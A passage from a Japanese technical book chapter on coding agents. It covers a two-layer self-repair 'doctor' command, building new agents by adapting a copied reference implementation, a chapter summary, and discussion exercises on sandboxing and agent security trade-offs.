ここで一つの誇張を避けねばなりません。期限切れの token、ロックファイル、ポートの競合といった高頻度の問題は、それ自体に明確な検出ルールと固定された修復動作があり、`doctor` は**一組の確定的なチェックを基礎として**まずそれらをカバーします。これは従来の運用スクリプトと本質的に変わりません。真に Agent の能力を体現するのは第二層です。確定的なルールがカバーしない難しい問題に対して、`doctor` はそれを LLM に委ね、エラーログを分析し、設定ファイルの意味を理解し、問題の因果関係を推論し、的を絞った修復方案を生成させます。確定的なチェックがよくある問題を安定して修復することを担保し、LLM がロングテールの難問に最終的な備えとして対処する——二層が連携してこそ、`doctor --fix` はかなりの部分のよくあるゲートウェイの問題を自動で解決できます。この「Agent が Agent を修復する」モードは、Agent の作業対象がもはや外部システムではなく、それ自身の実行環境になったとき、自己修復能力がシステムアダプタから Agent の自己ブートストラップのインフラへと格上げされるのです。

**Agent に Agent を書かせる鍵となるコツ。**

高品質な Agent を創り出すのは、普通のアプリケーションコードを生成するよりはるかに複雑です。Agent のアーキテクチャパターン、ベストプラクティス、よくある落とし穴に対する深い理解を必要とするからです。もしこの領域の専門知識が欠けていれば、たとえ最も強力なコード生成モデルでも、アーキテクチャ上深刻な欠陥のある Agent を創り出しかねません。よくある欠陥は次のとおりです。

1. **コンテキスト管理の恣意性**：第 2 章で論じた標準的なコンテキスト形式を採らず、軌跡を純粋なテキストに変換してコンテキストに詰め込み、構造化されたメッセージがもたらす KV Cache の最適化を無視し、ツール呼び出しのループに境界のバグが存在する
2. **ツール設計の不規範性**：記述が簡略で、使用の境界の説明とネガティブリストが欠け、引数に具体的な例が欠ける
3. **技術選定の遅滞性**：訓練データの中で最もよくあるが、すでに古びたモデルと API を使う傾向がある。解決策：SOTA 知識ベースを維持するか、Agent に検索能力を与える
4. **外部エコシステムとの乖離**：廃止された API、もはや保守されないライブラリ、欠陥のあるパターンを使う

これらの問題を解決する最も効果的な経路は、プロンプトの中であらゆるルールを尽くすことではなく、**高品質な Agent 実装を参考の見本として提供し**、コード生成 Agent をその基礎の上で修正するよう導き、ゼロから始めさせないことです。

「見本に基づく生成」の優位性は明らかです。見本コードそのものがベストプラクティスの担い手であり、Agent は見本の上で修正するほうがゼロから書くより正しくやりやすく、アーキテクチャ上の良い選択が自然に保たれ、プロンプトの中で一条ずつルールを明言する必要がありません。

Agent は新しい Agent を開発するタスクを受けたら、まず自分のコード（または検証済みの他の高品質な実装）を複製し、それから的を絞って修正すべきです。システムプロンプトを調整して新しい役割に合わせ、ツールを置換または増減して新しい機能に適応させ、業務ロジックを修正しつつアーキテクチャの枠組みを保ちます。この「自己複製して適応的に修正する」モードは、新しい Agent が核心的な技術の優位性を継承することを担保しつつ、特定の次元で差別化することを許します。ちょうど生物学における遺伝子の複製に変異を加えたようなものです。

> **実験 5-12 ★★★：Agent を創り出せる Agent を開発する**
>
> **実験目標**：メタプログラミング（Metaprogramming、すなわち他のプログラムを生成または修正できるプログラムを書くこと）能力を備えた Coding Agent を構築し、ユーザーの要求に応じて新しい Agent システムを自動で作成でき、ベストプラクティスに従うことを担保する。
>
> **技術方案**：Coding Agent に高品質な Agent 実装を参考の見本として提供する（ch5/coding-agent プロジェクトそのものを使える）。新しい Agent を作成する要求を受けたとき、Agent はまずこの見本コードを複製し、それからユーザーの具体的な要求に基づいて的を絞って修正する。
>
> **受け入れ基準**：生成された Agent が正常に稼働して基本的なタスクを完成できる。標準的なメッセージ形式とツール呼び出しプロトコルを採り、現在推奨されるモデルと API を使っていることを検証する。複数ラウンドの対話におけるコンテキストと状態管理の正しさをテストする。ゼロから生成する方式と見本に基づいて修正する方式を対比し、後者が品質と効率で優位であることを検証する。
>
>
> 
>
>

Agent の自己ブートストラップは、コード生成能力の究極の応用を体現しています。Agent を創り出せる Agent が、知能の自己繁殖を実現するのです。以上で、私たちは Coding Agent の基礎からコード生成の多元的な価値、そして自己ブートストラップまでの完全な本筋を整理しました。

## 本章のまとめ

本章が論じてきた核心は終始一つのこと——コードは単にプログラムを書く道具ではなく、Agent が形式化して思考し正確に表現するための言語である——でした。

Harness 工程のあの節の核心的な結論はこうです。Coding Agent の成熟度が高いのは、コード生成モデルがとりわけ強いからではなく、ソフトウェアエンジニアリングが数十年かけて貯めたインフラ——テストスイート、型システム、バージョン管理——が本来的に強力な一式の Harness を構成しているからです。この結論は他の Agent 場面にも一般化する価値があります。故障とエラーからの復旧の節は、同じテーマのもう一面を示しました。Agent の信頼性は、モデルが間違いを犯すか否かではなく、各種類の故障に対応する検出、復旧、終了の経路がそれぞれあるかどうかで決まります。

第二部では、コード生成のプログラミング以外での幅広い価値を示しました。本文の 6 つの次元に対応します。

- **思考ツール**：記号計算と制約求解の助けを借りて確率的思考の不足を補う
- **業務ルールの制約**：曖昧さのない方式で業務ルールを表現し、不可逆的な操作の場面で確定的な安全防衛線を提供する——この安全保障の価値は実装コストをはるかに上回る
- **マルチメディア生成**：提案者・審査者機構を通じて PPT、ビデオなどのマルチモーダルなコンテンツを作る
- **システムアダプタ**：形式の進化に自動で追随し、ログのパースと問題診断の完全な自動化を実現する
- **生成的 UI**：フォーム、可視化チャート、ひいては完全にカスタマイズ可能なアプリケーションを動的に作り、純粋なテキストの制限を突破する
- **Agent の自己ブートストラップ**：コードで同類の Agent を修復し創り出し、Agent を創り出せる Agent を実現する

コードが Agent にもたらす価値はこうです。それはタスクを完成させる手段であると同時に、知識を蓄積し、ツールを創り出し、自身を最適化する機構でもある——真の「メタ能力」なのです。

ここまでで、私たちは三大支柱のうちコンテキストとツールという 2 つの支柱の議論を完成させました。そしてコード生成こそ、その中で汎用性が最も強いツールなのです。しかし一つの鍵となる問いにまだ答えていません。これらの設計上の意思決定の効果を、いかに科学的に測るのか。次章から、私たちは第三の支柱——モデル——に入り、まず評価から語り起こします。次章では完全な評価方法論——評価環境の構築、データセットの設計から報酬モデルと評価駆動のモデル選定まで——を構築し、前のすべての章で論じた技術方案に定量的な検証の手段を提供します。

## 演習問題

1. ★★ コード生成は Agent の「メタ能力」と呼ばれます。しかしコード実行はセキュリティリスクを持ち込みます——Agent が生成したコードは脆弱性、無限ループ、資源の枯渇を含み得ます。サンドボックス隔離は一部の問題を解決できますが、コードの能力も制限します（例えばネットワークやファイルシステムにアクセスできないなど）。安全性と能力の間で最適なバランス点をどう見つけますか？
2. ★★★ Agent の自己ブートストラップ——Agent を創り出せる Agent——は「知能の自己繁殖」を実現します。しかし自己ブートストラップのたびに新しい偏りやエラーが持ち込まれ得ます。この種のエラーは世代間で累積するでしょうか？ Agent の自己ブートストラップの退化をどう防ぎますか？
3. ★★ コード生成 Agent はログのパースを処理するとき、形式の進化に自動で追随できます。しかしもし形式の変化が予期した改変ではなくバグだった場合、Agent の適応性はかえって問題を覆い隠してしまいます。Agent は「適応すべき変化」と「報告すべき異常」をどう区別すべきでしょうか？
4. ★★ 本章は PPT 生成、ビデオ編集、ログ可視化で提案者・審査者機構を繰り返し使いました。もし Reviewer の美的な好みが目標ユーザーと一致しない場合、例えば Reviewer は情報密度が合理的だと考えるがユーザーは詰まりすぎだと感じる場合、フィードバックループは誤った局所最適に収束します。ユーザーの好みのフィードバックも Reviewer のループに参加させるにはどうすればよいでしょうか？
5. ★★ 本章は Coding Agent が実行とデバッグで得た経験をコードベースに沈殿させて戻す多様な方式——知識ベースファイルへの書き込み、アーキテクチャ文書の更新、プロジェクト指示ファイルの維持、操作シーケンスのコードへの固定——を示しました。もしこれらの経験をさらにシステムプロンプトの中のルールへと抽出すると、ルールセットは時間とともに絶えず膨張します。沈殿したルールに対して「ガベージコレクション」——冗長または古びた項目を識別してクリーンアップする——をどう行いますか？ この Agent 自身が経験を沈殿させる機構は、第 8 章で論じるシステムプロンプトの自動最適化と、どこが同じでどこが異なるでしょうか？
6. ★ 「リモートワークに優しいチームは、往々にして AI Agent にも優しい」。あなたの所属するチームや組織は、知識の文書化の面で「AI-ready」までどれくらいの距離がありますか？ 最大の障害は何でしょうか？
7. ★★★ Simon Willison は Agent の「致命的な三要素」（プライベートなデータへのアクセス、信頼できないコンテンツへの露出、外部通信能力の具備）を提出し、本章はその基礎の上に第 4 の——永続記憶——を加えました。この 4 種類の要素を同時に処理する必要のあるプロダクション環境で、あなたはセキュリティ戦略をどう設計しますか？
8. ★★ Artifact モードは Agent が生成した SQL やフロントエンドコードをユーザーのブラウザやデータベースで直接実行させます。しかし生成された SQL は破壊的な操作を実行し得て、生成された HTML は脆弱性を含み得ます。システムの安全性をどう担保しますか？
9. ★★ 業務ルールをツール内部のデータベースの真値に基づく検証へとエンコードし、引数の設計でモデルが呼び出す前に政策条件を照合するよう導くことは、本質的にコードの構造で Agent の振る舞いを制約することです。この「コードすなわちルール」のモードは、自然言語のルールに比べてどんな優位性と限界がありますか？
10. ★★ Artifact モードは Agent に SQL や可視化コードを生成させ、フロントエンドが直接実行し、LLM が大量のデータを処理するのを迂回します。この「Agent がコードを生成し、システムがコードを実行する」という分業のモードは、従来の「Agent が直接答えを出す」モードに比べて、どんな優劣がありますか？